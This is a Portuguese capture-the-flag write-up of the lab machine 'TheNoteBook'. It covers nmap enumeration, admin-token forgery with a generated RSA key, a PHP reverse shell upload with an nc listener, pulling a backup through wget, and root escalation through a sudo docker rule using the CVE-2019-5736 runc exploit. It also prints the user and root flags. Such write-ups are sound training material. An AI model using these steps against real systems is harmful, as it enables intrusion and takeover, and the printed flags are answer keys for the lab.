 # TheNoteBook

---

## Enum

---

- Descobrimento das portas abertas utilizando nmap:

```python
nmap -A 10.10.10.230
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-20 17:21 -03
Nmap scan report for 10.10.10.230
Host is up (0.14s latency).
Not shown: 896 closed ports, 102 filtered ports
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  tcpwrapped
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

---

## Exploration

---

- Ao ver a resposta do nmap de volta , teve o conhecimento da porta 80 aberta , por default tinha uma aplicação web rodando, então ao registrar a conta, o servidor deu um token junto com a conta criada , então apenas com uma modificação do token, a conta teria um privilégio de administrador.

![TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/Untitled.png](TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/Untitled.png)

- Então criamos uma chave RSA com openssl para válidar nosso token.

```python
openssl genrsa -out privKey.key 2048
```

- Então com o reconhecimento da página , teve o conhecimento para fazer upload de arquivos,então subimos uma Reverse shell em php e a executamos:

![TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/Untitled%201.png](TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/Untitled%201.png)

- Ao pegar shell , percebemos um arquivo de backup chamado "home.tar.gz", então puxamos para nossa maquina:

```python
nc -lvnp PORT
```

```python
python3 -m http.server
```

```python
wget [http://10.10.10.230:8000/home.tar.gz](http://10.10.10.230:8000/home.tar.gz) 
```

```python
tar -xzvf home.tar.gz
```

- Trocando de user e tinha a primeira flag!

User flag: dfed2065e59b2d453d341d27e123c25e

---

## Pós-Exploration

---

```python
sudo -l
User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

- Então ao pesquisar esse privilege escalation no google , teve o reconhecimento da CVE-2019-5736 → [https://github.com/Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)
- Editamos a cve:

    ![TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/bash.png](TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/bash.png)

- E fizemos a compilação:

    ![TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/compilar.png](TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/compilar.png)

- Entramos na docker :

![TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/docker.png](TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/docker.png)

- Abrimos um servidor e subimos nosso binario "main":

![TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/main.png](TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/main.png)

- Ao executar o binario na docker, deixaremos uma porta ouvindo com o netcat e com o segundo terminal executamos a docker!

![TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/sh.png](TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/sh.png)

- Root!

![TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/root.png](TheNoteBook%203bb74b2003f0467bbd9357d966ca7005/root.png)

Root Flag:584012a257e2e43dbf5d6cf66507af41